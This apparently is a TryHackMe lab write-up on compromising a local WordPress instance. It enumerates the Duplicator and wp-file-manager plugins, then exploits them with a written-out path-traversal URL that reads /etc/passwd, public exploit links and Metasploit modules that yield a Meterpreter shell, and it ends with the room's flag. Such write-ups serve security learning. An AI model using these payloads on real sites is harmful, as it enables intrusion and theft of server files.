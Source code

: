 - nothing much useful using `wpscan`, except this
```
User(s) Identified:
[+] cth
```

- as per THM, we use nmap to find installed and vulnerable plugins
```
┌─[glack@parrot]─[~]
└──╼ $nmap --script http-wordpress-enum --script-args search-limit=1500 -p 8080 127.0.0.1
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-09 23:03 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-wordpress-enum: 
| Search limited to top 1500 themes/plugins
|   plugins
|     duplicator 1.3.26
|_    wp-file-manager 6.0

```


- google both of the plugins vulnerability exploits 
- used this `auxiliary(scanner/http/wp_duplicator_file_read)` metasploit module to check and got the contents of `/etc/passwd` 

- just to check i set my file path to `set FILEPATH /home/cth/user.txt`
and got the output as well `THM{227906201d17d9c45aa93d0122ea1af7}`


- For manual exploitation , read this exploit `https://www.exploit-db.com/exploits/50420`, all we we have to do is change directory path to 
```
http://127.0.0.1:8080//wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../etc/passwd
```

and we can download a file with the contents of `/etc/passwd`


- For manual exploitation of RCE used this exploit

https://www.exploit-db.com/exploits/49178


this did not work so used this https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213/tree/main



- manual exploit was giving error, now using this `exploit(multi/http/wp_file_manager_rce`
 after adding options and running the exploit i get a meterpreter shell open

and the user flag

```
(Meterpreter 1)(/home/cth) > cat user.txt
THM{227906201d17d9c45aa93d0122ea1af7}
```
